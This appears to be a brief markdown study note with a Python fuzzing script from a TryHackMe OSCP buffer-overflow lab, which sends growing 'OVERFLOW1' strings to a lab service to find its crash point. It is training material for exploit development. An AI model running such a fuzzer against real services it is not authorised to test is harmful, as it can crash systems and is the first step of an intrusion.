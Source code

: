 # Windows - Buffer Over Flow


### Fuzzing

This a script from one of the room in TryHackMe. Please try it I will share below the link.
```
import socket, time, sys

ip = "10.10.113.181"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Link => [TryHackMe-OSCP_Buffer_Overflow_Prep](https://tryhackme.com/room/oscpbufferoverflowprep)